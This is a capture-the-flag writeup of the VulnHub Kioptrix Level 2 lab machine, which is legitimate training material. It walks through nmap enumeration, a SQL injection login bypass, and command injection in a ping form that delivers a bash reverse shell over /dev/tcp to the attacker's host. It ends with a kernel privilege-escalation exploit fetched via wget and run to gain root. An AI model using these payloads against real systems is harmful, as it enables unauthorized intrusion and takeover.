 ```yaml
---
layout: post
title:  Kioptrix Level 2 Writeup
categories: [vulnhub]
tags: [Writeup]
---
```



# Objective

Get root access via any means.

# Enumeration

Find the target ip:

```bash
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ad:36:56, IPv4: 10.10.10.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.1      00:50:56:c0:00:08       VMware, Inc.
10.10.10.2      00:50:56:ed:49:99       VMware, Inc.
10.10.10.133    00:0c:29:50:1f:1f       VMware, Inc.
10.10.10.254    00:50:56:e5:1b:02       VMware, Inc.
```

The target ip is 10.10.10.133.

Detect ports, services and some known vulnerabilities:

```bash
# Nmap 7.91 scan initiated Fri Nov  4 06:58:51 2022 as: nmap -A -p 1-1100 -oN nmap_result.txt 10.10.10.133
Nmap scan report for 10.10.10.133
Host is up (0.0020s latency).
Not shown: 1094 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            752/udp   status
|_  100024  1            755/tcp   status
443/tcp open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2022-11-04T06:35:42+00:00; -4h23m24s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
755/tcp open  status   1 (RPC #100024)

Host script results:
|_clock-skew: -4h23m24s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  4 06:59:06 2022 -- 1 IP address (1 host up) scanned in 14.75 seconds
```

Since it has port 80 open, so next I will try opening its web pages.

# Exploitation

![](/img/posts/kioptrix-level-2-writeup-1.jpg)

There's a login form. So the first thing came to my mind is sql injection.

I tried several sql commands to make a quick test.
I tried the following for both username and password:
admin'
admin'--
admin' or '1' = '1

And luckily the last one worked! I logged in successfully:
![](/img/posts/kioptrix-level-2-writeup-2.jpg)

Now there's another web page:
![](/img/posts/kioptrix-level-2-writeup-3.jpg)

It tells me I can execute ping tests. Usually this might have command injection vulnerabilities.
To verify my hypothesis, I added ls command after ping:
![](/img/posts/kioptrix-level-2-writeup-4.jpg)

which apparently worked:
![](/img/posts/kioptrix-level-2-writeup-5.jpg)
The directory content is listed after ping.
So next I tried to inject a bash reverse shell instead of ls command.
But before that, I should start a listener:
![](/img/posts/kioptrix-level-2-writeup-6.jpg)

Now it's time to start injecting bash shell:
![](/img/posts/kioptrix-level-2-writeup-7.jpg)

The full command is below:
```bash
127.0.0.1 & bash -i >& /dev/tcp/10.10.10.129/4444 0>&1
```

OK, I'm in.
![](/img/posts/kioptrix-level-2-writeup-8.jpg)

But I'm user apache, not root. So I need to do a privilege escalation.
I'm trying looking for its kernel vulnerabilities first.
Got its kernel version and type:
![](/img/posts/kioptrix-level-2-writeup-9.jpg)

![](/img/posts/kioptrix-level-2-writeup-10.jpg)

Searching for vulnerabilities via searchsploit:
```bash
──(kali㉿kali)-[~/kioptrix_lv2]
└─$ searchsploit Linux Kernel escalation
```
In the output below, I'm going to use the payload 9574.txt:
![](/img/posts/kioptrix-level-2-writeup-11.jpg)

```bash
┌──(kali㉿kali)-[~/kioptrix_lv2]
└─$ searchsploit -m linux/local/9574.txt                                                     1 ⨯
  Exploit: Linux Kernel < 2.6.19 (x86/x64) - 'udp_sendmsg' Local Privilege Escalation (2)
      URL: https://www.exploit-db.com/exploits/9574
     Path: /usr/share/exploitdb/exploits/linux/local/9574.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/kioptrix_lv2/9574.txt
```

In the content of the txt file, it leads me to another file which I think maybe the real payload script:
![](/img/posts/kioptrix-level-2-writeup-13.jpg)

After having downloaded the compressed file, I start an http server on the kali linux for sharing the file:
```bash
┌──(kali㉿kali)-[~/kioptrix_lv2]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

On the victim VM, downloading the file and decompress it:
```bash
bash-3.00$ wget http://10.10.10.129:8000/9574.tgz
--05:26:16--  http://10.10.10.129:8000/9574.tgz
           => `9574.tgz'
Connecting to 10.10.10.129:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,359 (4.3K) [application/x-gtar-compressed]

    0K ....                                                  100%  415.71 MB/s

05:26:16 (415.71 MB/s) - `9574.tgz' saved [4359/4359]
bash-3.00$ tar zxvf 9574.tgz
therebel/
therebel/exploit.c
therebel/pwnkernel.c
therebel/therebel.sh
```

So there comes a subdirectory named therebel. 
Switch into it and run therebel.sh:
```bash
bash-3.00$ cd therebel  
bash-3.00$ ls -l
total 20
-rw-r--r--  1 apache apache 9922 Sep  2  2009 exploit.c
-rw-r--r--  1 apache apache  782 Sep  2  2009 pwnkernel.c
-rwxr--r--  1 apache apache 1471 Sep  2  2009 therebel.sh
bash-3.00$ ./therebel.sh
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# 
```
Alright, well done!
